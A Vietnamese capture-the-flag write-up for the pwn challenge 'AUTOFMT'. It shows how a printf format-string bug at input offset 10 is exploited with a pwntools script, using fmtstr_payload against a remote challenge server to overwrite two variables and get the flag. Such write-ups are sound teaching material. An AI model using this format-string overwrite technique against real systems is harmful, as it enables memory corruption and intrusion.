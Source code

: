 # AUTOFMT (pwn)

> Description: Trung bình

## Exploit

- Kiểm tra chương trình với `file`, là file binary 64bit

  ![file-check.png](images/file-check.png)

- Kiểm tra với `checksec`, NX, Stack Canary, PIE đều được bật

  ![checksec-check.png](images/checksec-check.png)

- Chạy chương trình, ta thấy chương trình in ra 2 giá trị `a` và `b`, và địa chỉ của `a`

  ![initial-exec.png](images/initial-exec.png)

- Sủ dụng pseudo code, ta thấy rằng là chương trình sẽ random 2 giá trị, sau đó in ra cùng với địa chỉ `a`, mục đích sẽ là sửa được 2 giá trị `a`, `b` sao cho bằng 2 giá trị được in ra. Và ta thấy rằng là trong chương trình có sử dụng `prinf`, nên có thể sử dụng format string để sửa 2 giá trị.

  ![pseudo.png](images/pseudo.png)

- Kiểm tra địa chỉ của `a`, `b`, ta thấy rằng là địa chỉ của `b`: `bAddr = aAddr - 8`

  ![a-b-addresses.png](images/a-b-addresses.png)

- Tìm offset của user input, với user input là `'%p' * 30`,ta thấy rằng là nó sẽ nằm tại vị trí thứ 10(`p` = `0x70`, `%` = `0x25`, ` ` = `0x20`)

  ![offset.png](images/offset.png)

- Như vậy, có được code exploit, sử dụng `pwntools - fmtstr_payload`: [AutoFmt.py](AutoFmt.py)

  ```python
  from pwn import *

  # p = process('./autofmt')

  p = remote('45.122.249.68', 10015)

  p.recvline()

  context.clear(arch='amd64')

  aValue = int(p.recvline()[4:-1])
  bValue = int(p.recvline()[4:-1])
  aAddr = int(p.recvline()[11:-1], 16)
  bAddr = aAddr - 8

  log.info(f'a Value: {hex(aValue)}')
  log.info(f'b Value: {hex(bValue)}')
  log.info(f'a address: {hex(aAddr)}')
  log.info(f'b address: {hex(bAddr)}')

  writes = {aAddr: p64(aValue),
            bAddr: p64(bValue)}

  payload = fmtstr_payload(10, writes, write_size='short')

  print(payload)
  p.sendline(payload)

  p.interactive()

  ```

  ![flag.png](images/flag.png)

> Flag: Wanna.One{do_cac_ban_tren_the_gian_nay_khoang_cach_nao_la_xa_nhat}

